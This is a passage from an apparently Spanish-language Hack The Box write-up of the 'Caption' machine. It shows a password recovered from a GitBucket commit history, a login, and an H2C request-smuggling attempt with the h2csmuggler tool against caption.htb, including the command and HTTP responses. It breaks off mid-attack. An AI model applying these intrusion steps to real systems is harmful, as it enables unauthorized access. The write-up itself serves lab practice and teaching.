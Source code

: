 no sale nada interesante por lo que vamos a ver la del puerto 8080

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20241229211923.png)

vemos un gitbucket
sin mas
vemos un usuario root

si vamos a uno de los git veremos uno llamado update acces contro y si miramos los cambios veremos lo siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128181532.png)

una contraseña que si la ponemos en el puesrto 80
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128181609.png)
ganamos acceso

ahora vemos apartados interesantes en especial uno llamado logs y otro downloas que nos da un 404 
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/caption/Pasted-image-20250128183256.png)
este sitio es vulnerable a H2C Smuggling por lo que podriamos usar la siguiente erramienta para efectuarlo de forma mas facil
https://github.com/BishopFox/h2csmuggler


que pasa que al ejecutar
```bash
 python3 .\h2csmuggler.py -x http://caption.htb http://caption.htb/logs
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Sat, 25 Jan 2025 17:53:43 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 32797 65537
age: 104
via: 1.1 varnish (Varnish/6.6)
accept-ranges: bytes
<snip>

[INFO] Requesting - /logs
:status: 302
server: Werkzeug/3.0.1 Python/3.10.12
date: Sat, 25 Jan 2025 17:55:28 GMT
content-type: text/html; charset=utf-8
content-length: 189
location: /
x-varnish: 32798
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.

```
